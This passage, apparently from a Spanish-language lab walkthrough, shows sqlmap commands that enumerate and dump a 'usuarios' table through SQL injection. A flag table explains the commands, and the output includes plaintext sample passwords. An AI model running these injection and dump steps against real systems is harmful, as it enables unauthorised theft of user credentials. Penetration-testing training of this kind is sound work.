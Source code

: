 <br>

Tenemos la tabla **usuarios**.

Ahora, dumpeemos las columnas de esa tabla:
```bash
sqlmap -r request.txt --batch -D 'php' -T 'usuarios' --columns
...
Database: php
Table: usuarios
[5 columns]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| contraseña | varchar(16) |
| alias      | varchar(20) |
| email      | varchar(30) |
| id         | int         |
| nombre     | varchar(20) |
+------------+-------------+
...
[*] ending @ 13:47:03 /2025-07-24/
```

| Parámetros | Descripción |
|--------------------------|
| *-r*       | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *-D*       | Selecciona una base de datos especifica a enumerar. |
| *-T*       | Selecciona una tabla especifica a enumerar. |
| *--columns* | Enumera las columnas de una tabla específica. |

<br>

Vamos a dumpear todos los datos de esa tabla:
```bash
sqlmap -r request.txt --batch -D 'php' -T 'usuarios' --dump
...
Database: php
Table: usuarios
[4 entries]
+----+------------+---------------------+---------+--------------+
| id | alias      | email               | nombre  | contraseña   |
+----+------------+---------------------+---------+--------------+
| 1  | adminPrinc | admin@localhost.com | admin   | 123456       |
| 2  | Pep100     | pepe@email.com      | pepe    | qwertyuiop   |
| 3  | Jaime_P    | jaime@email.com     | jaime   | jaime        |
| 4  | Richard    | Ricardobc@gmail.com | Ricardo | qwertyu      |
+----+------------+---------------------+---------+--------------+
```
